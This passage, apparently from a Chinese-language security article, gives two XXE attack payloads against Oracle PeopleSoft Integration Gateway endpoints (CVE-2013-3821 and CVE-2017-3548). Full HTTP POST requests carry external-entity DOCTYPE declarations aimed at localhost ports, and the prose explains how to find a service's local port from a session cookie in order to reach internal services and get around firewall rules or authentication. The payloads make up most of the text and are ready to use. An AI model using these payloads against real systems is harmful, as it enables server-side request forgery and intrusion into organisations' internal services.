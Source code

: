 **CVE-2013-3821：集成网关HttpListeningConnector XXE**

```
POST /PSIGW/HttpListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE IBRequest [
&lt;!ENTITY x SYSTEM "http://localhost:51420"&gt;
]&gt;
&lt;IBRequest&gt;
   &lt;ExternalOperationName&gt;&amp;x;&lt;/ExternalOperationName&gt;
   &lt;OperationType/&gt;
   &lt;From&gt;&lt;RequestingNode/&gt;
      &lt;Password/&gt;
      &lt;OrigUser/&gt;
      &lt;OrigNode/&gt;
      &lt;OrigProcess/&gt;
      &lt;OrigTimeStamp/&gt;
   &lt;/From&gt;
   &lt;To&gt;
      &lt;FinalDestination/&gt;
      &lt;DestinationNode/&gt;
      &lt;SubChannel/&gt;
   &lt;/To&gt;
   &lt;ContentSections&gt;
      &lt;ContentSection&gt;
         &lt;NonRepudiation/&gt;
         &lt;MessageVersion/&gt;
         &lt;Data&gt;&lt;![CDATA[&lt;?xml version="1.0"?&gt;your_message_content]]&gt;
         &lt;/Data&gt;
      &lt;/ContentSection&gt;
   &lt;/ContentSections&gt;
&lt;/IBRequest&gt;
```

**CVE-2017-3548：集成网关PeopleSoftServiceListeningConnector XXE**

```
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...
&lt;!DOCTYPE a PUBLIC "-//B/A/EN" "C:windows"&gt;
```

在这里，我们准备利用这些XXE漏洞来访问localhost的各种服务，并尝试绕过防火墙规则或身份认证机制，但现在的问题是如何找到服务所绑定的本地端口。为了解决这个问题，我们可以访问服务的主页，然后查看cookie内容：

```
Set-Cookie: SNP2118-51500-PORTAL-PSJSESSIONID=9JwqZVxKjzGJn1s5DLf1t46pz91FFb3p!-1515514079;
```

我们可以看到，当前服务所使用的端口为51500。此时，我们就可以通过http://localhost:51500/来访问应用程序了。
